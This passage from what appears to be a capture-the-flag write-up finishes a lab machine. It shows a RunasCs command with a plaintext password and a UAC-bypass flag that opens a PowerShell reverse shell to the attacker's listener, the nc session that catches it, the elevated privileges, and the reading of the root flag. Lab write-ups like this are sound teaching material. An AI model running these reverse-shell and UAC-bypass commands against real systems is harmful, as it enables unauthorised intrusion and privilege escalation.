[*] Warning: The logon for user 'backup' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
```

So we have to bypass the UAC. And we do this by going back to and run RunasCs again, but this time with `--bypass-uac`. First we kill and restart the local listener and then we run again.

```shell
.\RunasCS.exe backup RvzaJaBnQqapiEEvLhUsIARzJFLZTVgVTOdqKNku powershell -r 10.10.14.25:8200 --bypass-uac
```

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
Connection received on 10.10.11.240 49504
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
whoami
napper\backup
PS C:\Windows\system32>  whoami /priv
 whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

This time it looks better and we get the root flag.

```shell
PS C:\Windows\system32> type "c:\users\administrator\desktop\root.txt"
type "c:\users\administrator\desktop\root.txt"
...[OMITTED]...
```
